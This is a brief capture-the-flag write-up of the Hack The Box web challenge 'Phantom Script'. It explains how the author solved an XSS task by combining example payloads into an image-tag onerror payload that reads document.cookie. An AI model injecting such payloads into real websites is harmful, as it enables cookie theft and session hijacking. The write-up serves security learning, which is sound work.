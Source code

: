 ```yaml
---
layout: post
title:  "Phantom Script"
date:   2025-04-09 20:10:00 -0400
categories: HTB-challenge web very-easy
tags: HTB CTF writeup XSS 
---
```


### SOLUTION
We can see at the bottom right of the web, they provide us some examples of XSS payload
![](assets/img/htb/phantomscript/1.png)

By guessing, we combine 2 payloads then see what happend.
```
<img src=x onerror="alert(document.cookie)">
```
![](assets/img/htb/phantomscript/2.png)
